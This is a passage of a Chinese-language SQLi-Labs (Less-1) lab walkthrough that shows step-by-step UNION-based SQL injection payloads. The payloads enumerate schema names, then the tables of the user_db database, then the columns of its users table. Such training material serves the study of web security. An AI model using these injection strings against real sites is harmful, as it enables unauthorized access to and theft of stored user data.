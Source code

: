   回显位置为第2、3位

- 枚举数据库名

  ```
  /sqlilabs/Less-1/
  ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+
  ```

  ![](/assets/images/1-7.png)

  发现存储用户信息的user_db数据库

- 枚举user_db数据库的表名

  ```
  /sqlilabs/Less-1/
  ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='user_db' --+
  ```

  ![](/assets/images/1-8.png)

  发现users表

- 枚举users表的列名

  ```
  /sqlilabs/Less-1/
  ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='user_db' and table_name='users' --+
  ```

  ![](/assets/images/1-9.png)
